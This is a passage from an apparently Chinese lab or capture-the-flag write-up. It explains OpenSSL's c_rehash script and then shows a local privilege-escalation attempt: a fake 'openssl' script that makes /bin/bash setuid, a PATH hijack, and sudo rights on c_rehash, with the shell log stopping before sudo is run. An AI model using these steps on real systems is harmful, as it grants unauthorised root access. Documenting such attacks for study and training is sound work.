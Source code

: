 > 7. **退出状态**
>
>    - 返回错误计数（0 表示全部成功）。
>
> ------
>
> ### **三、安全细节**
>
> 1. **文件名注入防护**
>     文件名中的单引号被转义：`$fname =~ s/'/'\\''/g`，防止命令注入（修复 CVE-2022-1292）。
>
>    ```perl
>    # 安全执行命令示例：
>    `openssl x509 -in '$escaped_fname' -hash -noout`
>    ```
>
> 2. **重复文件处理**
>
>    - 通过 SHA-1 指纹检测重复文件，跳过重复项并告警。
>
>    ```perl
>    WARNING: Skipping duplicate certificate $fname
>    ```
>
> ------
>
> ### **四、使用示例**
>
> ```bash
> # 基本用法（处理默认目录）
> c_rehash
> 
> # 处理自定义目录（显示详细日志）
> c_rehash -v /path/to/certs
> 
> # 保留现有链接并处理多个目录
> c_rehash -n /dir1 /dir2
> ```
>
> > **提示**：该脚本常用于配置 OpenSSL 的证书目录，使 `curl --capath` 等工具能通过哈希值快速定位证书。

但是我自己审计时候发现存在一处劫持漏洞`my $openssl = $ENV{OPENSSL} || "openssl";`，这代表若用户通过 `export OPENSSL=/自定义路径/openssl` 显式指定路径，则使用该值，当 `$ENV{OPENSSL}` 为空时，使用默认值字符串 `"openssl"`。

- 自定义一个恶意脚本`openssl`
- 修改路径
- sudo 运行脚本，恶意代码执行。

```bash
(remote) maria@hash:/tmp$ echo "chmod +s /bin/bash" > openssl
(remote) maria@hash:/tmp$ chmod +x openssl 
(remote) maria@hash:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
(remote) maria@hash:/tmp$ echo $PATH
/usr/bin:/bin:/usr/local/bin:/sbin:/usr/sbin:/usr/local/sbin
(remote) maria@hash:/tmp$ PATH=$PWD:$PATH
(remote) maria@hash:/tmp$ echo $PATH
/tmp:/usr/bin:/bin:/usr/local/bin:/sbin:/usr/sbin:/usr/local/sbin
(remote) maria@hash:/tmp$ sudo -l
Matching Defaults entries for maria on hash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User maria may run the following commands on hash:
    (ALL : ALL) NOPASSWD: /usr/bin/c_rehash
```